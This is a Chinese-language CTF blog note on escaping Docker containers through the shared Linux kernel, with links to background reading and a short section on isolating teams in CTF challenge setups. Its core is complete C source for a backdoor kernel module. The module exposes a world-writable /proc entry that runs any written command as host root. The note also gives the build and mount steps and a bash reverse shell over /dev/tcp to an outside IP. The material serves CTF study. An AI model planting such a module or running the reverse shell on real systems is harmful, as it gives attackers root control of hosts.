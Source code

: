 ```yaml
---
title: Docker 逃逸 潦草笔记
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...

## docker原理

- [linux中的容器与沙箱初探](https://atum.li/2017/04/25/linuxsandbox/)
- [Docker是如何实现隔离的](https://juejin.cn/post/6844904052006846478)
- [fork、vfork、clone区别](https://www.cnblogs.com/johnnyflute/p/3560102.html)
- [linux cgroups 简介](https://www.cnblogs.com/sparkdev/p/8296063.html)

## 内核态漏洞

- [从0到1的虚拟机逃逸三部曲](https://xz.aliyun.com/t/7345)
- [play_with_docker](https://nightrainy.github.io/2019/10/31/play-with-docker/)

在以linux为底座的情况下，由于docker和宿主机共用linux内核，这使得逃逸过程可以退化为对linux内核漏洞的利用。例如使用内核函数call_usermodehelper拉起的用户态进程就直接是在宿主机正常namespace的root进程，在docker里如果能触发完成此过程，则完成逃逸。例如使用如下后门内核模块：

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/proc_fs.h>

MODULE_LICENSE("GPL");


static ssize_t kshell_write(struct file *file, const char __user *ubuf, size_t count, loff_t *ppos)
{
    char buf[0x1000];
    copy_from_user(buf, ubuf, count);
    char *cmd_argv[] = {"/usr/bin/bash", "-c",buf,NULL};
    call_usermodehelper("/usr/bin/bash", cmd_argv, NULL, UMH_WAIT_PROC);

    return count;
}

const struct proc_ops myops = {
    .proc_write = kshell_write
};

static int kshell_init(void)
{
    printk(KERN_INFO "kernel shell, init!\n");
    proc_create("kshell",0666,NULL,&myops);
    return 0;
}
 
static void kshell_exit(void)
{
    remove_proc_entry("kshell", NULL);
    printk(KERN_INFO "kernel shell, exit!\n");
}
 
module_init(kshell_init);
module_exit(kshell_exit);
```

```makefile
obj-m += hello.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

编译、insmod、并映射到docker容器中：

```c
xuanxuan@ubuntu:~$ make
xuanxuan@ubuntu:~$ sudo insmod hello.ko
xuanxuan@ubuntu:~$ docker container run -v /proc/kshell:/kshell  -it ubuntu:18.04 bash
```

不过在最后利用的形式上与内核提权有所差异，由于namespace的影响，不直接通过回用户态然后执行/bin/sh在docker中获得一个宿主机的shell，但可以出网弹shell：

- [说一说反弹shell](http://www.singleye.net/2018/04/%E8%AF%B4%E4%B8%80%E8%AF%B4%E5%8F%8D%E5%BC%B9shell/)

```c
root@03ea4622e658:/# echo "/usr/bin/bash -i >& /dev/tcp/10.11.11.1/8888 0>&1 &" > /kshell
```

也可以使用落地文件，将命令在本地回显：

```c
root@03ea4622e658:/opt# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/6NRKJVEFBBGFB3UAOG4SELSIPD:/var/lib/docker/overlay2/l/Q23MHYI2YS55FM6SSF64IX4ZSD,upperdir=/var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/diff,workdir=/var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/work)
root@03ea4622e658:/# echo "id > /var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/merged/1.txt" > /kshell 
root@03ea4622e658:/# cat 1.txt 
uid=0(root) gid=0(root) groups=0(root)
```

还可以在宿主机上弹计算机（GUI程序不能使用root，要切回普通用户）：

```c
root@03ea4622e658:/# echo "su xuanxuan -c 'DISPLAY=:0 /usr/bin/gnome-calculator &'" > /kshell
```

## 出题环境搭建

内核态的利用一般仍归属于linux内核，并且看起来更多的逃逸都是与docker的使用、配置相关，在二进制上攻破docker守护进程本身并不常见，所以暂时搁置。

- [Docker 安全性与攻击面分析](https://www.anquanke.com/post/id/209448)
- [Docker 逃逸相关总结](https://www.geekby.site/2021/02/docker%E9%80%83%E9%80%B8%E7%9B%B8%E5%85%B3%E6%80%BB%E7%BB%93/)
- [docker 逃逸初学](https://chen1sheng.github.io/docker%E9%80%83%E9%80%B8/)

不过由于逃逸，所以在搭建题目上需要做队伍间隔离，一般三层：docker（deploy）-> qemu（flag）-> docker（attack）：

- [出题报告: nday_container_escape](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/xctf_huaweicloud-qualifer-2020/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-nday_container_escape.html)
- [出题报告: container/registry_misc](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/hwctf202101/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-containerregistry_misc.html)
- [出题报告: container/latest_laravel](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/hwctf202102/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-containerlatest_laravel.html)